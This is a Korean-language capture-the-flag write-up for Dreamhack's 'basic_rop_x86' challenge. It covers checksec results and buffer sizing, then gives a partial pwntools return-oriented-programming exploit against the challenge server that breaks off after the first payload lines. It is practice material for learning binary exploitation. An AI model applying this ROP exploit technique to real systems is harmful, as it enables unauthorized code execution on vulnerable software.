 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Dreamhack "basic_rop_x86"  Write-UP</h1>
</body>
<br>
<br>
</html>

2025.09.29 풀이

<img width="1280" height="320" alt="image" src="https://github.com/user-attachments/assets/ca90b00a-4a6c-4a0e-997d-f88d4ded0fc5" />

제공받은 elf를 checksec로 확인해보았다. 보니, NX가 적용된 것을 알 수 있다.

<br>

</br> 

<img width="492" height="844" alt="image" src="https://github.com/user-attachments/assets/12388dd9-9b38-42af-a9b2-9855a861f3dd" />

이전 작성한 basic_rop_x64 문제와 같은 코드인 것으로 보인다.
  
<br>

</br> 

<img width="580" height="856" alt="image" src="https://github.com/user-attachments/assets/89368efe-cba6-404f-bf14-c682c93111fe" />

main 함수를 어셈블리 해보니, buf에 0x44를 할당하는 것을 알 수 있다.

buf의 크기가 0x40이니까, 나머지 0x4는 더미 값인 것을 보인다. 전 문제를 비슷한 방식으로 접근하면 될 것으로 보인다. 
  
<br>

</br> 

<img width="570" height="314" alt="image" src="https://github.com/user-attachments/assets/79e3cfc6-38f7-4042-a023-a9b8ef400e4f" />

익스플로잇 코드 작성할 때 필요한 가젯 주소를 구하였다.
  
<br>

</br> 

```
from pwn import *

context(arch='i386', os='linux')

p = remote('host8.dreamhack.games', 19076)
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "libc.so.6")}
e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6', checksec=False)

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']

bss = e.bss()

pppr = 0x8048689

payload = b'A' * 0x48   # buf + SFP

payload += p32(write_plt)
```